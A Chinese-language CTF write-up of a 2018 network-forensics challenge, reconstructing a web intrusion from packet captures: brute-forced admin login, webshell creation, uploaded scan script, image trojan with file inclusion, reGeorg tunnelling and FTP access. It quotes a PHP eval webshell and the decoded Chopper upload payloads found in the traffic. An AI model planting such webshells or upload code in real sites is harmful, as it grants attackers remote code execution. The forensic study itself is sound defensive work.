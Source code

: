 ```yaml
---
title: 铁人三项2018第七赛区(福建)数据赛wp
tags:
  - wireshark
  - 数据分析
  - 取证
  - 日志分析
  - 流量分析
category: [取证,流量分析]
abbrlink: ba9a968
date: 2018-05-15 21:44:37
---
```


# 0x00 题目
链接:[密码：0ple](https://pan.baidu.com/s/109nbU4x0t-IXHaP_vBLuaw)
题目:[密码：ngkm](https://pan.baidu.com/s/1oq-wH7kT805wvi0a7v6RPA)

<!--more-->
# 0x01 写webshell
先通过httppcap 提取出http浏览
脚本如下
```bash
for file in `ls`
do
    parse_pcap -vvv $file > content/$file.txt
done
```
![图片.png](https://upload-images.jianshu.io/upload_images/5443560-f3ac4605b2b46b38.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
第一关是`关卡描述：网站后台密码是多少`
这里制作一个匹配脚本，后面用的到
```bash
for file in `ls`
do
    echo $file
    cat $file|grep $1
    echo "-----------------------------------------------------"
done
```
执行`./1.sh pass`
发现大量爆破
![图片.png](https://upload-images.jianshu.io/upload_images/5443560-75b68180138f35c4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
接下来匹配`./1.sh "&password="`
尝试下查看下最后一个爆破的回包`username=admin&password=aabbcc`
在
![图片.png](https://upload-images.jianshu.io/upload_images/5443560-c083326bfd6e0884.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
结合`302`，`location`，`set-Cookie`可以看出这个已经爆破成功，所以第一题` 关卡描述：网站后台密码是多少`是`aabbcc`。攻击者IP是`202.1.1.2`。
接下来看第三题。`网站后台登陆地址是多少（http://+ip+路径）`
找到一个爆破的包，有这么几行
```
[202.1.1.2:15717] -- -- --> [192.168.1.203:80] 
POST /ad_admin.php?mod=login HTTP/1.1
Host: 202.1.1.1
```
我就填了`http://202.1.1.1/ad_admin.php`结果不行，后来填了
`http://192.168.1.203/ad_admin.php`，答案正确，我觉得应该是第一个更贴切。
接下来的问题是找`webshell`。我通过匹配菜刀连接特征寻找猜到痕迹。
![图片.png](https://upload-images.jianshu.io/upload_images/5443560-fa3c58ad953c5501.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
在`data-sence2_00003_20180204180642.pcapng.txt`里面,向前看，在第一个`shell2.php`前面，爆破成功后面
找到这句话
![图片.png](https://upload-images.jianshu.io/upload_images/5443560-c58ca9fe78481fce.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
解码得到
`$fp = fopen("shell2.php", "w");fwrite($fp, "<?php eval(\$_POST['cmd']);?>");fclose($fp);`
所以webshell的内容是
`<?php eval($_POST['cmd']);?>`
接下来从第五题开始分析的是菜刀里面的内容
# 0x02 菜刀内容
`5. 关卡描述：网站数据库密码是多少`
在`data-sence2_00007_20180204183072.pcapng.txt`里面
![图片.png](https://upload-images.jianshu.io/upload_images/5443560-0eee457199c56056.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
所以密码是`newnrtpassword`
`6. 黑客第一个上传的php文件名是什么`
在`data-sence2_00005_20180204181416.pcapng`里面
![图片.png](https://upload-images.jianshu.io/upload_images/5443560-9d42f1f49c600c49.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
解码为
```
@ini_set("display_errors","0");@set_time_limit(0);if(PHP_VERSION<'5.3.0'){@set_magic_quotes_runtime(0);};echo("X@Y");$f='/var/www/html/diypage/scan.php';$c=$_POST["z1"];$c=str_replace("\r","",$c);$c=str_replace("\n","",$c);$buf="";for($i=0;$i<strlen($c);$i+=2)$buf.=urldecode('%'.substr($c,$i,2));echo(@fwrite(fopen($f,'w'),$buf)?'1':'0');;echo("X@Y");die();
```
所以结果为`scan.php`
`7. 关卡描述：黑客对内网扫描的范围是多少(ip1-ip2)`
结合上面的`scan.php`，应该是通过scan.php来匹配的。我们匹配下
` ./1.sh  scan.php`
![图片.png](https://upload-images.jianshu.io/upload_images/5443560-ab03c1a646f06531.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
在`data-sence2_00005_20180204181416.pcapng`里面
![图片.png](https://upload-images.jianshu.io/upload_images/5443560-b9f384e7f0c4084b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
是从`192.168.2.1`到`192.168.2.150`
`8. 描述：黑客下载的数据库备份文件名是什么`
匹配` ./1.sh  bak`
![图片.png](https://upload-images.jianshu.io/upload_images/5443560-0c3449dc2554f7c5.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
所以是`bak_2018-01-29-17-47-52.zip`
`9. 关卡描述：黑客上传的图片木马的密码是多少`
用`./1.sh  'array_map("ass"."ert",array'`匹配菜刀内容，图片应该post的包是蛮大的。总共比较大的就几个。然后一个个解码，根据文件名，找到`favicon.ico'`
![图片.png](https://upload-images.jianshu.io/upload_images/5443560-00b33027f7750edc.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在`data-sence2_00007_20180204183702.pcapng`里面
![图片.png](https://upload-images.jianshu.io/upload_images/5443560-a639984bfb7a3999.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

拖进winhex
![图片.png](https://upload-images.jianshu.io/upload_images/5443560-02121bc64f3566d6.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
所以图片马的密码是 `picto`
`10. 黑客修改了哪个文件来配合木马文件(绝对路径)`
上面传的是图片马，不能直接利用，要配合使用，应该 是利用文件包含
先过滤菜刀，再过滤include
`./1.sh  'array_map("ass"."ert",array'|grep include`
![图片.png](https://upload-images.jianshu.io/upload_images/5443560-aaac5eb8698492d4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
在这里面看到`include%28..%2Ffavicon.ico`
解码，得到文件名为`/var/www/html/diypage/adm/obj_edit.php`
接下来的操作都是通过tunnel代理
# 0x03 web代理
`11 关卡描述：FTP服务器开在了哪个端口`
`reGeorg`这个工具常用于web代理，查找端口我们可以直接利用
`./1.sh  '?cmd=connect&target='`过滤，查找到有
`1433`，`10062`，`10063`三个端口，我们一个个过滤(比赛的时候懒得过滤，有5次提交机会，所以一个个试，是1433).通过wireshark
过滤`tcp.port == 1433 || udp.port == 1433`
追踪流可以看到ftp登录，因此就是他了
![图片.png](https://upload-images.jianshu.io/upload_images/5443560-c105bd4442dd2e2a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
`12 黑客使用FTP上传的文件名`
追踪1433的流，发现大量登录爆破，在成功的那个流里面
![](https://upload-images.jianshu.io/upload_images/5443560-40dbb31a9fa3f4a6.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
文件名是`readmd.rtf`
`13 黑客登陆FTP的密码是多少`
也是在这个流里面
![图片.png](https://upload-images.jianshu.io/upload_images/5443560-8805e68ac70138c4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
密码是`qweasd123!@#`
`14. 黑客使用FTP上传的文件中的文件内容是什么`
在这个![](https://upload-images.jianshu.iso/upload_images/5443560-9da6c2e8697396a4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)的中间寻找流，刚好在226上面那条
![图片.png](https://upload-images.jianshu.io/upload_images/5443560-0afe48938d69421f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)





















